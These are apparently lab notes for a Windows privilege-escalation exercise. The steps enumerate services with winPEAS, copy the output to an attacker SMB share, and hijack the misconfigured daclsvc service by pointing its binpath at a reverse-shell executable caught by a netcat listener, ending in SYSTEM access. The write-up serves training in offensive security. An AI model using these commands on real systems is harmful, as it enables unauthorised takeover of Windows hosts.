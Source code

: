 1x1 Service - Insecure Service Permissions

# Service - Insecure Service Permissions


```bash
.\winPEASany.exe ansi quiet servicesinfo > wpeas_services_op.txt

copy C:\PrivEsc\wpeas_services_op.txt \\10.9.4.127\kali\wpeas_services_op.txt

cat wpeas_services_op.txt
```
Identified 1 service mis-configuration

![60aa5646ccd37c92dc373d5e61d9d460.png](../_resources/d12fd0d8da27468c9bba7d009f3470d4.png)

```console
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```
![f870c547a46421c0eb583c0fc4454d57.png](../_resources/bd3784743fd3463791e4a3c18d1d4bda.png)

```bash
sc qc daclsvc
```
![1340a8c57e12e021acbb4edd93eb1acf.png](../_resources/d8e4b60968254cf18f29e2079fb8f20a.png)
```bash
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```
![dcd10a4f4b7e9f18aba5dfd1e0553cae.png](../_resources/1395e21362e5484cb8bff4e38d236d80.png)
```bash
sudo nc -nvlp 53
```
![3ac4ed949ced18b1c395b06dd5557eb8.png](../_resources/c0e7c68956704e57b1d692544765a4db.png)
```bash
net start daclsvc
```
![b659f3b70af91f40100290ea2a43e292.png](../_resources/5ae2f9754cff49f4888bc38c23b09e62.png)

**Got System**
![9f52a47513a45133f9bccf190222e1a3.png](../_resources/fb69977262b84ab4b6b1f132568bc9cd.png)

